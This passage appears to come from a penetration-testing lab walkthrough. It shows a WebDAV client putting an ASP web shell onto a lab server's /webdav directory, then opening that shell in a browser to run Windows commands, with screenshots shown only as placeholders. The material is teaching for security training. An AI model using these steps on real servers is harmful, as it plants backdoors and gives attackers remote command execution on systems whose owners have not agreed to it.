 * In this case, upload `webshell.asp` as it can be executed on the `/webdav` directory by using the local dictionary file.

```bash
dav:/webdav/> put /usr/share/webshells/asp/webshell.asp 
Uploading /usr/share/webshells/asp/webshell.asp to `/webdav/webshell.asp':
Progress: [=============================>] 100.0% of 1362 bytes succeeded.
```

<figure><img src="../../../../../.gitbook/assets/image (18) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>webdav directory</p></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/image (19) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>uploaded when performing davtest </p></figcaption></figure>

* Access the backdoor using the browser or navigate to the `webshell.asp` that has been uploaded
  * `http://10.3.26.115/webdav/webshell.asp`
* Windows commands can be provided in the box

<figure><img src="../../../../../.gitbook/assets/image (20) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>webshell.asp</p></figcaption></figure>
